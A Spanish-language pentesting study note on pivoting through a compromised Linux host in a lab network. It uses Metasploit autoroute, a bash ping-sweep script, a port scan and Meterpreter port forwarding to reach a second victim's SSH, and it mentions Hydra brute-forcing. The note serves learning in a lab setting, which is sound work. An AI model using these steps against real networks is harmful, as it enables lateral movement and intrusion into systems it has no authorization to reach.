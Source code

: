 ```yaml
---
title: "Pivoting Entornos Linux"
layout: "single"
category: "Pivoting"
slug: "pivoting/pivoting-entornos-linux"
date: "2025-09-30"
---
```


### Metasploit
Teniendo el siguiente laboratorio, queremos llegar a lanzar un escaneo a la máquina windows, previamente comprometiendo y utilizando la máquinas Linux como "puente".

| Int red |  Kali Linux  |        Linux |     Windows |
| :------ | :----------: | -----------: | ----------: |
| Eth0    | 192.168.1.20 | 192.168.1.40 | 10.10.10.30 |
| Eth1    |              |  10.10.10.23 |             |

Partimos de que hemos comprometido la primera máquina (Linux), y tenemos establecida con ella una sesión de *meterpreter*. Si no la tenemos establecida:
![[Metasploit y MsfVenom#Payload sesión meterpreter Linux]]

### 1º - Enrutar trafico
 Ejecutamos el autoroute y le decimos la sesión sobre la que queremos enrutar el tráfico

```bash
use multi/manage/autoroute
set SESSIONS 1
```

### 2º - Identificar la segunda máquina víctima
Crear un mini script que haga un barrido de la red. Este script lo compartimos con la máquina "puente" y lo lanzamos.
```bash
### LOS MÓDULOS DE METASPLOIT DAN BASTANTES ERROES, LO MEJOR ES UN SCRIPT EN BASH QUE HAGA UN BARRIDO DE LA RED

#!/bin/bash
for i in {1..255}; do
timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
if [$? -eq 0 ]; then
	echo "Máquina 10.10.10.$i En línea"
	fi
	done
```

### 3º - Port Forwarding
Ya tenemos el tráfico enrutado y estariamos listos para comprometer la segunda máquina. Podemos lanzar un breve escaneo para luego ver que puerto haremos *port forwarding*.
```bash
use scanner/portscan/tcp
```

En este caso es diferente que en windows. Teniendo la sesión de meterpreter y la ruta añadida. Hacemos el port forwarding de la siguiente forma.
```bash
## ME QUIERO TRAER EL PUERTO 22 DE LA 2ª VÍCTIMA A MI MÁQUINA KALI LINUX
portfwd add -l 222 -p 22 -r <ip 2ª víctima>
```

Ahora si hago: 
```
ssh usuario@127.0.0.1 -p 222
```
Podría establecer una sesión ssh con la 2ª víctima a través de mi puerto 222 que está *port forwardeado* . También le podríamos lanzar un Hydra o lo que queramos.



